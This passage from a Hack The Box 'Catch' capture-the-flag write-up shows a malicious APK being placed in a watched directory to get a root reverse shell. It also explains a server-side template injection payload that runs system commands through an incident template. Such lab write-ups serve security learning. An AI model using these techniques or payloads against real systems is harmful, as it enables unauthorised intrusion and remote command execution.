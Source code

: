 Lastly, we will transfer exploit.apk to the server and move it to /opt/mdm/apk_bin

```
will@catch:/tmp$ cp exploit.apk /opt/mdm/apk_bin
will@catch:/tmp$ ls -la /opt/mdm/apk_bin
total 2724
drwxrwx--x+ 2 root root    4096 Apr 17 07:22 .
drwxr-x--x+ 3 root root    4096 Mar  3 14:23 ..
-rw-rw-r--  1 will will 2778532 Apr 17 07:22 exploit.apk
```

From pspy64s, we can see that the reverse shell payload is being executed
![apk exploit](https://github.com/joelczk/writeups/blob/main/HTB/Images/Catch/apk_exploit.png)

### Obtaining root flag
```
root@catch:~# cat /root/root.txt
cat /root/root.txt
<Redacted root flag>                                                                                      
```

## Post-Exploitation
### Server-Side Template Injection
In the SSTI vulnerability that we have exploited, we have to first create an incident template with the payload "{{["id"]|filter("system")|join(",")}}". Afterwards, we will have to send a POST request to /api/v1/incident for the exploit to be completed. 

This is because the POST request that is being sent to /api/v1/incident is required for the incident to be logged with the incident template and for the output to be reflected on http://catch.htb:8000/dashboard/incidents.

In the screenshot below, the output is captured on http://catch.htb:8000/dashboard/incidents when we refresh the page

![SSTI reflected on the website](https://github.com/joelczk/writeups/blob/main/HTB/Images/Catch/ssti_website.png)
